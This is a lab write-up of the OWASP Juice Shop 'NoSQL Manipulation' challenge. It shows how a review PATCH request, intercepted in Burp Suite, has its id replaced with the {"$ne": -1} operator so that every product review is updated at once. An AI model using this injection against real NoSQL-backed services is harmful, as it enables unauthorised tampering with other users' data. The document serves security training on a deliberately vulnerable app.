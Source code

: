 # Juice Shop: NoSQL Manipulation  

## Challenge Overview  
- **Title:** NoSQL Manipulation  
- **Difficulty:** 4/6  
- **Description:** Update multiple product reviews at the same time.  

---

## Tools Used  
- **Browser** – To trigger review queries.  
- **Burp Suite** – To intercept and manipulate requests.  

---

## Methodology and Solution  

After solving the **NoSQL DoS** challenge, I gained a better understanding of how **NoSQL injection** works.  

This time, the goal was to **update multiple product reviews simultaneously** instead of a single one.  

---

### 1. Capturing the Request  
- I submitted a product review normally.  
- Using **Burp Suite**, I intercepted the `PATCH` request that updates the review.  

---

### 2. Manipulating the Request  
Normally, the request looks like this:  

```json
{
  "id": 7,
  "message": "Nice product!"
  "author":"admin@juice-sh.op"
}
```
To update multiple reviews at once, I replaced the id field with a NoSQL operator:
```json
{
  "id": {
    "$ne": -1
  },
  "message": "Nice product!"
  "author":"admin@juice-sh.op"
}
```
![My Images](../.Images/nosql.png)

### 3. Explanation of Payload
"$ne": -1 → This means “id not equal to -1”, which matches all product IDs in the database.  
By removing the specific product ID and injecting this condition, the update applies to all reviews simultaneously  

### 4. Result
After forwarding the manipulated request, the review message was updated for multiple products at once.  
Challenge solved – successfully performed NoSQL manipulation to mass-update reviews.  
